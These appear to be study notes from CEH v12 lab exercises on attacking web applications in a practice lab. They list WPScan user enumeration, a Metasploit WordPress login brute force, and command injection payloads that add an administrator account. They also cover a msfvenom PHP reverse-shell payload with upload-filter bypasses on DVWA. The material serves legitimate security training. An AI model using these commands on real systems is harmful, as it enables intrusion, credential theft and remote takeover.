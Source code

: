 ### Lab2-Task4: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications (Page 407)

- Log in a website, change the parameter value (id) in the URL
- Conduct a XSS attack: Submit script codes via text area

### Lab2-Task6: Enumerate and Hack a Web Application using WPScan and Metasploit (Page 431)

- **wpscan --api-token XXXXX --url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate u**
  - **--enumerate u: Specify the enumeration of users**
  - **--enumerate vp: Specify the enumeration of vulnerable plugins**
  - **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
- service postgresql start
- msfconsole
- **use auxiliary/scanner/http/wordpress_login_enum**
- show options
- **set PASS_FILE password.txt**
- **set RHOST 10.10.10.16**
- **set RPORT 8080**
- **set TARGETURI**  **http://10.10.10.16:8080/CEH**
- **set USERNAME admin**
- run
- Find the credential

### Lab2-Task7: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security) (Page 440)

- If found command injection vulnerability in an input textfield
- | hostname
- | whoami
- **| tasklist| Taskkill /PID /F**
  - **/PID: Process ID value od the process**
  - **/F: Forcefully terminate the process**
- | dir C:\
- **| net user**
- **| net user user001 /Add**
- **| net localgroup Administrators user001 /Add**
- Use created account user001 to log in remotely

https://www.scribd.com/document/662376180/CEH-v12-LabManual-p04

### Lab2-Task8: Exploit a file upload vulnerability at different security levels (Page 7)
- **msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw**
- For LOW DVWA:
  - Create a file with output (reverse.php)
  - File Upload -> select reverse.php
- For MEDIUM DVWA:
  - Create a file with output (reverse.php.jpg)
  - File Upload -> select reverse.php.jpg
  - Intercept call with Burp Suite and change file name to reverse.php
- For HIGH DVWA:
  - Create a file with output (reverse.php.jpg) and add **GIF98** as header
  - File Upload -> select reverse.php.jpg
  - Command Injection -> | copy reverse.php.jpg reverse.php
- **msfconsole**
- **use exploit/multi/handler**
- **set payload php/meterpreter/reverse_tcp**
- **set LHOST=[IP]**
- **set LPORT=[PORT]**
- **run**